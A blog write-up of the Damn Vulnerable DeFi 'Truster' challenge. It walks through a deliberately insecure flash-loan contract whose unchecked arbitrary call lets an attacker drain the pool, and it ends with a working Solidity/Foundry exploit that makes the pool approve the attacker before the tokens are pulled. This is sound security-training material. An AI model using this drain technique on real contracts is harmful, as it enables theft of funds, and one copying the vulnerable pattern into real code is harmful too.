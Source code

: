```yaml
---
title: 'Damn Vulnerable DeFi Challenge #3 Solution — Truster'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>Our end goal here is to attack the pool to drain all the 1 million DTV tokens available in the balance.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-10T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


This is Part 3 of the ["Let’s play Damn Vulnerable DeFi CTF"](https://stermi.xyz/blog/lets-play-damn-vulnerable-defi) series, where I will explain how to solve each challenge.

> [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.
> Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #3 — Truster

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
>
> Currently the pool has 1 million DVT tokens in balance. And you have nothing.
>
> But don’t worry, you might be able to take them all from the pool. In a single transaction.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/truster)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/truster/truster.challenge.js)

## The attacker end goal

Our end goal here is to attack the pool to drain all the 1 million DTV tokens available in the balance.

Given the context of the challenge, we will leverage the **free flash loan mechanism** of the landing pool to steal all the funds.

## Study the contracts

### `TrusterLenderPool`

The contract has only one method inside called `flashLoan`.

```solidity
// Don't use this code in production
// This is an insecure code part of https://www.damnvulnerabledefi.xyz/ challenges

function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
    external
    nonReentrant
{
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    damnValuableToken.transfer(borrower, borrowAmount);
    target.functionCall(data);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

The function takes in input four parameters:

- `borrowAmount`: the number of tokens to send to the `borrower` address
- `borrower`: the address that is borrowing the tokens and that will receive the amount of token borrowed
- `target`: the address of the contract on which the `OpenZeppelin Address.functionCall` will be executed on
- `data`: the byte payload that will be used to `Address.functionCall`

What else can we see looking at the code?

- The function has `nonReentrant` function modifier, so we can assume that is not prone to reentrancy attacks
- it’s **not checking** the `borrower` or `target` address
- It’s **not checking** that the `borrowAmount` is 0
- Is checking that the balance of the pool has at least `borrowAmount` tokens
- Transfer the `borrowAmount` to the `borrower` address
- Execute a `functionCall` with `data` as parameter on the target address
- And at the end, verify that the final balance of the contract is greater than the starting balance

So, we cannot

- steal funds using reentrancy
- steal funds directly because it will check at the end if we have sent back all the funds

But we have three hints:

- it’s not checking that the `borrowAmount` is zero
- it’s not checking the `borrower` or `target` address
- and it’s executing an external call to the `target` address passing an arbitrary `data` payload to it

Let’s look at the source code of [Address.functionCall](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol). Following the code we see that the final code that will be executed is

```solidity
require(address(this).balance >= value, "Address: insufficient balance for call");
require(isContract(target), "Address: call to non-contract");
(bool success, bytes memory returndata) = target.call{value: value}(data);
return verifyCallResult(success, returndata, errorMessage);
```

Given this information, we know that the TrusterLenderPool contract will execute `target.call{value: value}(data);` using its own context.

This means that that specific arbitrary function executed on `target` is like if it will be **executed directly by** the **TrusterLenderPool** contract!

## Solution code

What function should we make the `TrusterLenderPool` execute that will allow us to steal all the funds?

We need to execute the [DamnVulnerableToken.approve(address spender, uint256 amount)](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol#L126-L140) with

- spender = attacker address
- amount = the balance of the lending pool

This will allow the attacker to transfer all the DVT token owned by the LendingPool to the attacker itself!

With all the information that we have, we can:

- Call the `flashLoan` function asking to borrow 0 token, so we will not need to pay back anything. This is important because the attacker does not own any DVT token.
- Call the `flashLoan` with target as the DVT token address to execute the call method on the Token contract itself
- Construct the `data` payload to make the `TrusterLenderPool` to call the DVT approve method `bytes memory data = abi.encodeWithSignature(“approve(address,uint256)”, attacker, poolBalance);`

```solidity
function exploit() internal override {
    /** CODE YOUR EXPLOIT HERE */
    uint256 poolBalance = token.balanceOf(address(pool));
    // Act as the attacker
    vm.prank(attacker);
    // make the pool approve the attacker to manage the whole pool balance while taking a free loan
    bytes memory attackCallData = abi.encodeWithSignature("approve(address,uint256)", attacker, poolBalance);
    pool.flashLoan(0, attacker, address(token), attackCallData);
    // now steal all the funds
    vm.prank(attacker);
    token.transferFrom(address(pool), attacker, poolBalance);
}
```

You can find the full solution on GitHub, looking at [Truster.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/truster/Truster.t.sol)

If you want to try yourself locally, just execute `forge test — match-contract TrusterTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
